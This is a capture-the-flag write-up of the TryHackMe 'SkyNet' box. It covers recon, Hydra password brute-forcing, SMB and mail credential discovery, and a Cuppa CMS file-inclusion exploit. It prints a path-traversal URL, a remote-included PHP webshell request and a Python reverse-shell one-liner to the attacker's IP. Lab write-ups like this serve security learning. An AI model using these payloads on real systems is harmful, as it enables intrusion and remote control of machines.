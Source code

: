 # SkyNet

## Recon

nmap revealed:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-29 03:49 UTC
Nmap scan report for ip-10-10-20-144.eu-west-1.compute.internal (10.10.20.144)
Host is up (0.00057s latency).
Not shown: 65529 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
MAC Address: 02:33:4B:B9:0C:CE (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.88 seconds
```

So, a website, a mail server and samba shares.

`dirb` on the website revealed a mail application, SquirrelMail, under `/squirrelmail`. The login page looked simple enough, but I needed a username and password.

`enum4linux` on the smb share revealed a username `milesdyson` and two shares: `/anonymous` and a restricted `/milesdyson`

## Hydra

Initially I tried `hydra`'ing the squirrel login using `milesdyson` and `rockyou.txt`. While that was running, I connected to the anonymous share and poked about. Apart from a huge and funny collection of machine learning books, there was a note saying all passwords had been reset, and three log files, of which only the first (`log1.txt`) had any content.

The log file contained a list of permutations on the word 'terminator'. On a whim, since `rockyou` wasn't getting me anywhere, I tried using the log file as a password source instead. The first entry `cyborg007haloterminator` worked :)

## Mail server, authed smb and hidden CMS

After logging in to squirrelmail, I found an email that contained a new SMB password:

```
Subject:   	Samba Password reset
From:   	skynet@skynet
Date:   	Tue, September 17, 2019 10:10 pm
Priority:   	Normal
Options:   	View Full Header |  View Printable Version  | Download this as a file

We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

I promptly used this with `smbclient -U milesdyson` to access the restricted share. In there, a level or two deep and buried in a huge set of markdown files I found a text file called important.txt

Inside this was a list of tasks:

```

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

I browsed to that path and found a hidden page on the main site. A `dirb` on the page revealed `/45kra24zxs28v3yd/administrator`, which when browsed to, revealed itself as 'Cuppa CMS'

## Remote file inclusion and shell

Cuppa is vulnerable to remote file inclusion, even unauthenticated, as described here on exploit-db: https://www.exploit-db.com/exploits/25971

I tested this with `/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd` and successfully got the contents of the local `passwd` file, all to the good. 

Next I quickly grabbed the user flag, guessing it would be as it is on most TryHackMe VMs: /home/milesdyson/user.txt. Success! `7ce5c2109a40f958099283600a9ae807`

The exploit would include anything, even a url, so I downloaded a simple request CMD php shell from github, spun up a `python3 -m http.server`, and then tested command execution: `http://10.10.20.144/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?cmd=whoami&urlConfig=http://10.10.151.47:8000/easy-simple-php-webshell.php` (note the cmd param before the urlConfig). That magic `www-data` showed up.

The next step was to get a reverse shell. I like to use this python one liner, when I find `nc -e` doesn't work:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.151.47",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

To get it working with the exploit, I url-encoded the above using Burp, then I stuck it into the url cmd parameter while I had a netcat listener running. Boom! Into the system.